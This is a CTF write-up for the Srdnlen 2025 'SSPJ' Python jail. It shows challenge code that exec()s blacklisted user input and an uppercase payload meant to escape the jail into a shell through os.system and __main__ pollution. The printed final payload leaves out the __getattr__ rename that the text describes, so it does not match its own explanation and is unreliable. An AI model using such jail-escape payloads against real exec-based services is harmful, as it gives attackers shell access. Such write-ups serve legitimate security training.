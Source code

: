 ```yaml
---
title: Srdnlen CTF 2025 - SSPJ
date: '2025-01-19'
categories:
- writeup
- srdnlen25
tags:
- misc
- pyjail
authors:
- babelo
---
```


## Challenge

```py
import random

class SSPJ(object):
    def __init__(self):
        print("Welcome to the Super Secure Python Jail (SSPJ)!")
        print("You can run your code here, but be careful not to break the rules...")

        self.code = self.code_sanitizer(input("Enter your data: "))

        # I'm so confident in my SSPJ that
        # I don't even need to delete any globals/builtins
        exec(self.code, globals())
        return

    def code_sanitizer(self, code: str) -> str:
        if not code.isascii():
            print("Alien material detected... Exiting.")
            exit()

        banned_chars = [
            # Why do you need these characters?
            "m", "o", "w", "q", "b", "y", "u", "h", "c", "v", "z", "x", "k"
        ]

        banned_digits = [
            # Why do you need these digits?
            "0", "7", "1"
        ]

        banned_symbols = [
            # You don't need these...
            ".", "(", "'", "=", "{", ":", "@", '"', "[", "`"
        ]

        banned_words = [
            # Oh no, you can't use these words!
            "globals", "breakpoint", "locals", "self", "system", "open",
            "eval", "import", "exec", "flag", "os", "subprocess", "input",
            "random", "builtins", "code_sanitizer"
        ]

        blacklist = banned_chars + banned_digits + banned_symbols + banned_words
        random.shuffle(blacklist)

        if any(map(lambda c: c in code, blacklist)):
            print("Are you trying to cheat me!? Emergency exit in progress.")
            exit()

        return code.lower()

if __name__ == "__main__":
    SSPJ()
```

## Solve

This is a simple pyjail. We can't use `(`, `[`, `{` and also `.`, `=` so it's basically impossible to pollute attributes of `help`, `license`, etc.

Note that the builtins are not removed so we can import modules. Also, there's a character blacklist which is easily bypassable by sending the payload in uppercase.

The only thing that we can pollute is the `__main__` module. This is possible because when a module is imported, it can be accessed in the `__main__` one. So if you do something like:

```py
from os import system
```

then the `system` will be accessible from `__main__.system`. We can abuse this by renaming `system` to `__getattr__` so if we try to import something from the main module, it will call our function.

Final exploit:

```py
FROM OS IMPORT SYSTEM; FROM __MAIN__ IMPORT SH
```
